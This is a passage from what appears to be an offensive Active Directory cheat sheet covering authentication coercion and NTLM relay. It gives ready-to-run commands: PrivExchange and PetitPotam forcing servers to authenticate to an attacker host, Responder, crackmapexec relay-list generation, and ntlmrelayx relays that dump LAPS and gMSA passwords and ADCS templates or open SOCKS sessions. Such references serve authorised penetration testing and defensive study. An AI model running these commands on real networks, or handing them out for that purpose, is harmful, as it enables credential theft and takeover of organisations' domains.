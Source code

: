 ```bash
python3 privexchange.py -ah <attacker_IP> <Exchange_server> -u user1 -p password -d domain.local
```

#### MSSQL Server

With [xp\_dirtree](https://hideandsec.sh/books/cheatsheets-82c/page/active-directory-python-edition#bkmrk-rbcd-from-mssql-serv).

#### WebClient Service

If this service runs on the target machine, a SMB authentication can be switched into an HTTP authentication (really useful for NTLM relay).

Check if WebClient is running on machines:

```bash
webclientservicescanner domain.local/user1:password@<IP_range>
```

If yes, coerce the authentication to the port 80 on the attacker IP. To bypass trust zone restriction, the attacker machine must be specified with a valid **NETBIOS name** and not its IP. the FQDN can be obtained with Responder in Analyze mode.

```bash
responder -I interface_to_use -A

#Coerce with PetitPotam for example
./petitpotam.py -u user1 -p password -d domain.local -pipe all "attacker_NETBIOS@80/test.txt" <target_IP>
```

### NTLM Relay

#### SMB without signing

Create a list of computer without SMB signing:

```bash
crackmapexec smb <IP_range> -u user1 -p password --gen-relay-list list.txt
```

#### ntlmrelayx

If only SMBv2 is supported, `-smb2support` can be used. To attempt the remove the MIC if vulnerable, `--remove-mic` can be used.

Multiple targets can be specified with `-tf list.txt`.

* Enumeration

```bash
#With attempt to dump possible GMSA and LAPS passwords, and ADCS templates
ntlmrelayx.py -t ldap://dc --dump-adcs --dump-laps --dump-gmsa --no-da --no-acl
```

* SOCKS

```bash
ntlmrelayx.py -t smb://target -socks
ntlmrelayx.py -t mssql://target -socks
```
